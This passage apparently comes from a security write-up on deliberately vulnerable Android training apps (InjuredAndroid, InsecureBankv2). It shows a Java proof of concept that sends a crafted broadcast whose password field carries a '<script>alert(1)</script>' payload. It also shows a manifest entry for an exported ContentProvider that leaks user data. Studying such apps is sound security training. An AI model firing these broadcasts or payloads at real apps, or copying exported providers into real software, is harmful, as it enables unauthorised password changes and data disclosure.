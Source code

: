 ```java
            }
        } else {
            System.out.println("Phone number is null");
        }
    }

```

Broadcast PoC in progress: Doesn't seem to be exploitable with the new Android apis

```java

package b3nac.injuredandroid.poc;

import androidx.appcompat.app.AppCompatActivity;

import android.content.ComponentName;
import android.content.Intent;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent start = new Intent();

        start.setAction("theBroadcast");
        start.putExtra("phonenumber","11111111111");
        start.putExtra("newpass", "<script>alert(1)</script>");

        sendBroadcast(start);
    }
}

```

---

## TrackUserContentProvider

### Exported ContentProvider discloses all users

```xml

<provider android:name="com.android.insecurebankv2.TrackUserContentProvider" android:exported="true" android:authorities="com.android.insecurebankv2.TrackUserContentProvider"/>

```
